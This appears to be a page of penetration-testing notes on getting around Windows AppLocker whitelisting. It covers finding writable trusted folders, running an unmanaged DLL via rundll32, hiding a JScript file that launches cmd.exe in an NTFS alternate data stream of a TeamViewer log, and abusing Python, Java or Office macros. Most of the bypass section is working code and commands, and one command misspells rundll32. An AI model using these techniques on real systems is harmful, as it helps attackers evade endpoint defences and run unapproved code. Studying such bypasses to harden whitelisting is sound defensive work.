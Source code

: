 **TRUSTED FOLDERS:**

Default AppLocker rules only allows to execute programs located under these directories: C:\Program Files, C:\Program Files (x86), and C:\Windows.

However there may be subdirectories under C:\Program Files, C:\Program Files (x86), or C:\Windows that may have write and executable permisions. To do so we will use [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
in conjuction with icacls:

```
1. accesschk.exe <user_name> C:\Windows -wus
2. icacls <directory>  -> on the posible directories to check if they got executable permision
```

**BYPASS WITH DLLs:**

The default ruleset doesn’t protect against loading arbitrary DLLs. So if we create an unmangaed DLL, we load it and then call methods of that unmanaged DLL, we could gain code execution:

```
1st Create an unmanaged DLL:
#include "stdafx.h"
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)

{
  switch (ul_reason_for_call)
  {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) void run()
{
  MessageBoxA(NULL, "Execution happened", "Bypass", MB_OK);
}

2nd Compile the DLL

3rd Load and execute the run method of the DLL

C:\> run32dll testdll.dll,run
```

**ALTERNATE DATA STREAMS:**

Windows Filesystem is based on NTFS and NTFS supports multiple Data Streams. An Alternate Data Stream is a binary file attribute that contains metadata.

For example lets say we have this JScript file(test.js) with this contents:

```
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
```

Then we use this command to write test.js as an Alternate Data Stream of a file that is located under a whitelisted directory, and we have write permissions over it.

```
C:\> type test.js > "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"

C:\> dir /r "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log"
  Volume in drive C has no label.
  Volume Serial Number is 305C-7C84

Directory of C:\Program Files (x86)\TeamViewer

03/09/2020 08:34 AM 32,489 TeamViewer12_Logfile.log
                      79 TeamViewer12_Logfile.log:test.js:$DATA

          1 File(s) 32,489 bytes
          0 Dir(s) 696,483,840 bytes free

C:> wscript.exe "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"   -> this will spawn a cmd.exe
```

**THIRD PARTY EXECUTION:**

AppLocker only enforces rules against native Windows executable data file types. However if another scripting interpreter is installed on the system(as python) we can abuse that. See the python [shellcode runner](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/Application%20WhiteListing/shellcode_runner_x64.py).

You can also use Java to bypass AppLocker, however this requires JRE to be installed. Additionally AppLocker doesn't block the execution of Office macros.
 
